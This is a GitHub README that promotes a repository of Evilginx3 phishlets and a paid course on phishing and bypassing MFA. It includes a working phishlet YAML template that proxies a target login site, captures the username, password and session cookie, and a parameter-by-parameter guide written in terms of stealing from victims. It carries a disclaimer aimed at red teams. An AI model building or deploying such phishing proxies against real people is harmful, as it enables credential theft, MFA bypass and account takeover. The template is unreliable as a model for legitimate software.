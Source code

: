 # Updated Evilginx3 Phishlets
I've dedicated substantial time and effort to create and update new phishlets for Evilginx3. In this repository, you'll find many custom Evilginx phishlets, finely crafted and updated to suit real-world applications.

**Got any requests or questions?** Feel free to message me @ simplerhacking.com

# Education: Interested in Mastering Phishing Attacks with Evilginx3?
## Check out our new Evilginx3 Pro Masterclass on: www.SimplerHacking.com
## Use Code: GITHUB20 for a 20% off of the course!
### Become an Evilginx pro & learn how to bypass modern MFA with the latest version Evilginx3, send verified campaigns, capture credentials, record & analyze campaign results. Get access to Phishlets not available on our public Github as well as tons of resources to aid your engagements.


![Screenshot (1859)](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/c1ca8c91-e98f-4a57-b979-3a71c45e4d6f)

### Course Previews:

![Evilginx Pro Course Preview](https://github.com/simplerhacking/Phishlet-Creator/assets/141525149/66bbf548-b340-4c91-8694-1f77209a5edb)

![Screenshot (2279)](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/7a817e44-ce59-49f5-8197-540cead76c93)


https://github.com/simplerhacking/Evilginx3-Tutorial/assets/141525149/fa7dcbf0-13cb-4cfc-b7a8-f944d824b0c2

### Email Spoofing for MITM Bonus Preview:
![evilginx3 new course 3](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/389cadcc-4fa3-4859-89e8-0ce95af23f65)


![Evilginx Course Preview K](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/8f01d447-91f2-40ad-81f6-ac05f7e7eb5e)

![Evilginx Pro Course Workflow](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/22130b95-84b2-4993-a334-245b3c7ffc78)



## Why Enroll in the Course?
- **Afforable:** The price of the course is afforable for anyone interesting in learning about Evilginx & MITM Attacks.
- **Zero Sugarcoating:**  There is no fluff in our education. You will learn everything straight up without the BS.
- **Practical Application:** Through hands-on labs & real customizeable templates, We help you apply what you learn in real-world scenarios.
- **From Basics to Advanced:** This course offers a smooth learning curve, foundation before diving into advanced features of Evilginx3.
- **Custom Phishlets files & Resource Library:** Access private phishlet files, Q&A support & our archived resource library.
- **Join our Community:** Be part of a community of learners and professionals in the field of red teaming and cybersecurity.
- **Get Support & Assistance:** Get your questions & concerns answered. We are here to help.


## Need Custom Phishlets? 
Check our constantly updating our free Evilginx3 Phishlet Repository for Red Teams

You can find it here: https://github.com/simplerhacking/Evilginx3-Phishlets

## Questions?
Send us an email to info@simplerhacking.com 

## Simpler Hacking Evilginx Phishlet Template (Use this template to make your own!)

```yaml
name: 'Your First Phishlet'
author: 'Simpler Hacking'
min_ver: '3.2.0'

proxy_hosts:
  - { phish_sub: 'www', orig_sub: 'www', domain: '{domain}', session: true, is_landing: true }

sub_filters: 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['text/html', 'application/javascript', 'text/css', 'application/json', 'image/x-icon', 'text/plain', 'application/xml', 'image/*', 'font/*']} 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['application/x-www-form-urlencoded']}

auth_tokens:
  - domain: '{domain}'
    keys: ['session']

creds:
  - key: 'username'
    search: ['(.*)']
    type: 'post'
  - key: 'password'
    search: ['(.*)']
    type: 'post'

auth_urls:
  - url_regex: 'https://{hostname}/login'
    valid_statuses: [200]

login:
  username: user
  password: pass
  url: https://www.{domain}/login

# This is just a demo example of a phishlet for 3.2.0

# You can find phishlets here: https://github.com/simplerhacking/Evilginx3-Phishlets

```
**Explanation of Phishlet Parameters:**

- `name:` Identifies the name of the phishlet.
- `author:` Specifies the phishlet author.
- `min_ver:` Specifies the minimum Evilginx version that is compatible with your phishlet.
- `proxy_hosts:` Indicates the domain and subdomains to proxy. The `phish_sub` is the subdomain that the phishing page will imitate.
- `sub_filters:` Allows the phishlet to replace instances of the actual domain name with the phishing domain, which is critical for the phishing page to function correctly.
- `auth_tokens:` Identifies the cookies that should be captured from the victim's browser to gain access to the victim's session.
- `creds:` This field determines the credentials that the phishlet is engineered to steal. The `key` is the name of the credential (like username or password) and `search` is a regular expression that the program will use to identify and extract these details from the user's input.
- `auth_urls:` Defines the URLs that Evilginx will treat as the authenticated URLs. After the victim logs in, Evilginx will look out for a redirect to one of these URLs, at which point it will steal the listed `auth_tokens`.
- `login:` Here you specify the identifiers of the username and password fields in the login form on the original webpage. The `url` is the link of the page where the victim enters their credentials.
- `force_post:` If set to true, it forces the alteration of HTTP method from GET to POST.
- `is_landing:` If set to true, it means that the page is a landing page for the phishing attack.
- `js_inject:` This is where you can write some JavaScript to be injected in the webpage. It's typically used to enhance the phishing attack and ensure a smoother victim experience.
- `domain:` This is a template variable used to replace target hostname used in phishlet configuration.

## Disclaimer
The tools here are intended solely for legal and ethical use by cybersecurity professionals in controlled environments. 
Any illegal or malicious use is strictly prohibited.
I disclaim all responsibility for any harm, loss, or damage that may arise from improper use.
